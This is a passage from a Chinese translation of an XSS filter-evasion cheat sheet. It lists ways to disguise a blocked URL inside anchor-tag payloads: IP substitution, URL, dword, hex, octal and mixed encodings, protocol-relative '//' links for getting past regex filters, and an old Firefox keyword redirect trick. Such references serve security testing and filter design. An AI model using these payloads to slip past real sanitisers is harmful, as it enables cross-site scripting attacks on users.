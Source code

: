 ### 2.84.    URL字符绕过

假定"<http://www.google.com/>"是不被允许的：

### **2.84.1. IP代替域名**

> <A HREF="<http://66.102.7.147/>">XSS</A>

### 

### 

### **2.84.2. URL编码**

> <A HREF="[http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D](http://www.google.com/)">XSS</A>

### 

### 

### **2.84.3. 双字节编码**

(注意：还有另一种双字节编码):

> <A HREF="[http://1113982867/](http://66.102.7.147/)">XSS</A>

### **2.84.4. 十六进制编码**

每个数字的允许的范围大概是240位字符，就如你在第二位上看到的，并且由于十六进制是在0到F之间，所以开头的0可以省略:

> <A HREF="[http://0x42.0x0000066.0x7.0x93/](http://66.102.7.147/)">XSS</A>

### **2.84.5. 八进制编码**

又一次允许填充，尽管你必须保证每类在4位字符以上-例如A类，B类等等:

> <A HREF="[http://0102.0146.0007.00000223/](http://66.102.7.147/)">XSS</A>

### **2.84.6. 混合编码**

让我们混合基本编码并在其中插入一些TAB和换行，虽然不知道浏览器为什么允许这样做。TAB和换行只有被引号包含时才有效:

> <A HREF="h
>
> tt p://6 6.000146.0x7.147/">XSS</A>

### **2.84.7. 协议解析绕过**

(// 替代http://可以节约很多字节).当输入空间有限时很有用(少两个字符可能解决大问题) 而且可以轻松绕过类似"(ht|f)tp(s)?://"的正则过滤(感谢Ozh提供这部分).你也可以将"//"换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径URL:

> <A HREF="//[www.google.com/](http://www.google.com/)">XSS</A>

### **2.84.8. Google的"feeling lucky"功能1**

Firefox使用Google的"feeling lucky"功能根据用户输入的任何关键词来将用户重定向。如果你存在漏洞的页面在某些随机关键词上搜索引擎排名是第一的，你就可以利用这一特性来攻击FireFox用户。这使用了Firefox的"keyword:"协议。你可以像下面一样使用多个关键词"keyword:XSS+RSnake"。这在Firefox2.0后不再有效.
